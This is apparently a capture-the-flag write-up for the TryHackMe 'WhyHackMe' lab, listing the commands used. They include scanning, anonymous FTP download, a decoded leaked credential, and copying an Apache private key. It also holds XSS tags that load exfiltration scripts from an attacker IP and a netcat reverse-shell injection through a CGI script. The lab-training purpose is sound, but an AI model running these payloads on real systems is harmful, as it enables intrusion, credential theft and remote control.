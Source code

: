 # TryHackMe-WhyHackMe

**Scope:**

- IPTables
- TLS Decrypting
- XSS

**Keywords:**

- FTP Enumeration & File Gathering
- Cross Site Scripting (XSS)
- Data Exfiltration
- SSH Connection
- File Transfer with SSH
- iptables
- PCAP Analysis
- Wireshark
- Decrypting Traffic with Key
- Remote Code Execution

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `nmap --script="ftp-*" -T4 -oN nmap_ftp_result.txt -Pn -p 21 $target_ip`
- `ftp whyhackme.thm`
- `wget -m ftp://anonymous:anonymous@whyhackme.thm`
- `gobuster dir -u http://whyhackme.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt --random-agent -b 404,500,501,502,503 -e -t 50`
- `curl -iLX $'POST' -d $'username=overthenet' -d $'password=overhenet' -H $'Content-Type: application/x-www-form-urlencoded' $'http://whyhackme.thm/register.php'`
- `echo 'PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT40MDMgRm9yYmlkZGVuPC90aXRsZT4KPC9oZWFkPjxib2R5Pgo8aDE+Rm9yYmlkZGVuPC9oMT4KPHA+WW91IGRvbid0IGhhdmUgcGVybWlzc2lvbiB0byBhY2Nlc3MgdGhpcyByZXNvdXJjZS48L3A+Cjxocj4KPGFkZHJlc3M+QXBhY2hlLzIuNC40MSAoVWJ1bnR1KSBTZXJ2ZXIgYXQgd2h5aGFja21lLnRobSBQb3J0IDgwPC9hZGRyZXNzPgo8L2JvZHk+PC9odG1sPgo=' | base64 -d`
- `echo 'amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=' | base64 -d`
- `ssh -o MACs=hmac-sha2-256 jack@whyhackme.thm -p 22`
- `scp -o MACs=hmac-sha2-256 jack@whyhackme.thm:/etc/apache2/certs/apache.key /root/Desktop/CyberLearningFramework/whyhackme/apache.key`
- `scp -o MACs=hmac-sha2-256 jack@whyhackme.thm:/opt/capture.pcap /root/Desktop/CyberLearningFramework/whyhackme/capture.pcap`
- `curl -k -s 'https://10.10.96.230:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN' --data-urlencode cmd='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.2.37.37 443 >/tmp/f'`

**System Commands:**

- `<script>alert(1)</script>`
- `<script src="http://10.2.37.37/xssex.js"></script>`
- `<script src=http://10.2.37.37/exfilscript.js></script>`
- `sudo -l`
- `sudo /usr/sbin/iptables -L`
- `sudo iptables -I INPUT -p tcp --dport 41312 -j ACCEPT`
- `tail -n 20 /etc/apache2/sites-available/000-default.conf`
- `find / -type f -name "*.key" 2>/dev/null`
- `python3 -c 'import pty;pty.spawn("/bin/bash");’`
- `export TERM=xterm`
- `sudo su -`
